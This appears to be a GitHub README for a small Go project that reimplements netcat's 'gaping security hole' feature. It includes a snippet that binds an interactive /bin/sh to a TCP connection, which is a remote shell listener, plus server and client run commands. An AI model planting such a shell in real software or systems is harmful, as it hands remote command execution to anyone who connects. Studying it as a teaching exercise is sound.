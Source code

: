 # Netcat gaping security hole

## What was Netcat Gaping Security Hole?

Netcat is the TCP/IP swiss army knife, a more flexible, scriptable version of Telnet. It contains a feature
that allows stdin and stdout of any arbitary program to be redirected over TCP, enabling an attacker to run any shell
scripts. 

### Creating in Golang

With creating a Pipe, I allow stdin and stdout to redirected over TCP:

```go
// creating the shell
cmd := exec.Command("/bin/sh", "-i")
// creating our pipeline
rp, wp := io.Pipe()

// binding stdin and stdout to user connection and pipe output
cmd.Stdin = conn
cmd.Stdout = wp

// copy the input into pipeline
go io.Copy(conn, rp)
```

### How to run?

Server:
```
go run main.go
```

Client:
``` 
go run client/client.go
```
